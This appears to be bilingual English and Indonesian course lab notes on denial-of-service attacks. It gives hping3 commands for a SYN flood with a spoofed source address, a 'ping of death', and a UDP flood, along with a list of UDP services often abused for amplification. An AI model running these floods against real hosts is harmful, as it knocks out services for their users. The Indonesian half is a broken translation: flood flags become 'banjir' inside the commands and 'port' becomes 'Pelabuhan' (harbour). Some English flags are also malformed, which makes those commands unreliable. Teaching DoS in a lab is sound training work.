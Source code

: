 # Bagian 01: DoS DDoS Concepts/Konsep DoS DDoS

**Modul 10: Denial-of-Service/Penolakan Layanan**

**Lab1-Task2: Perform a DoS Attack on a Target Host using hping3/Melakukan Serangan DoS pada Host Target menggunakan hping3**


- **Target:**
  - Wireshark-\&gt;Ethernet
- **Attacker**
  - **hping3 -S [Target IP] -a [Spoofable IP] -p 22 -flood**
    - **-S: Set the SYN flag**
    - **-a: Spoof the IP address**
    - **-p: Specify the destination port**
    - **--flood: Send a huge number of packets**
- **Target**
  - Check wireshark
- **Attacker (Perform PoD)**
  - **hping3 -d 65538 -S -p 21 –flood [Target IP]**
    - **-d: Specify data size**
    - **-S: Set the SYN flag**
- **Attacker (Perform UDP application layer flood attack)**
  - nmap -p 139 10.10.10.19 (check service)
  - **hping3 -2 -p 139 –flood [IP]**
    - **-2: Specify UDP mode**
- **Other UDP-based applications and their ports**
  - CharGen UDP Port 19
  - SNMPv2 UDP Port 161
  - QOTD UDP Port 17
  - RPC UDP Port 135
  - SSDP UDP Port 1900
  - CLDAP UDP Port 389
  - TFTP UDP Port 69
  - NetBIOS UDP Port 137,138,139
  - NTP UDP Port 123
  - Quake Network Protocol UDP Port 26000
  - VoIP UDP Port 5060

-------------------------------------------
munkin saya perlu menulisnya dalam bahasa indonesia agar dapat dipahami:

- **Target:**
 - Wireshark-\&gt;Ethernet
- **Penyerang**
 - **hping3 -S [IP Target] -a [IP Spoofable] -p 22 -flood**
 - **-S: Menyetel bendera SYN**
 - **-a: Memalsukan alamat IP**
 - **-p: Tentukan port tujuan**
 - **--flood: Mengirim paket dalam jumlah besar**
- **Target**
 - Periksa wireshark
- **Penyerang (Lakukan PoD)**
 - **hping3 -d 65538 -S -p 21 –banjir [IP Target]**
 - **-d: Tentukan ukuran data**
 - **-S: Menyetel bendera SYN**
- **Penyerang (Melakukan serangan banjir lapisan aplikasi UDP)**
 - nmap -p 139 10.10.10.19 (periksa layanan)
 - **hping3 -2 -p 139 –banjir [IP]**
 - **-2: Tentukan mode UDP**
- **Aplikasi berbasis UDP lainnya dan portnya**
 - Pelabuhan UDP CharGen 19
 -Port UDP SNMPv2 161
 -QOTD UDP Pelabuhan 17
 - RPC UDP Pelabuhan 135
 - Pelabuhan UDP SSDP 1900
 - CLDAP UDP Pelabuhan 389
 - TFTP UDP Pelabuhan 69
 - Pelabuhan UDP NetBIOS 137.138.139
 - NTP UDP Pelabuhan 123
 - Protokol Jaringan Gempa UDP Port 26000
 -VoIP UDP Port 5060

-------------------------------------------
## Konsep
Denial of service (DoS) attack/Serangan penolakan layanan (DoS).

[Definisi](../definitions/definitions_D.md#denial-of-service-serangan)

Distributed denial of service/Penolakan layanan terdistribusi

[Definisi](../definitions/definitions_D.md#distributed-denial-of-service-serangan)

Botnet

[Definisi](../definitions/definitions_B.md#botnet)

Internet relay chat (IRC)/Obrolan relai internet (IRC)

[Definisi](../definitions/definitions_I.md#internet-relay-chat)

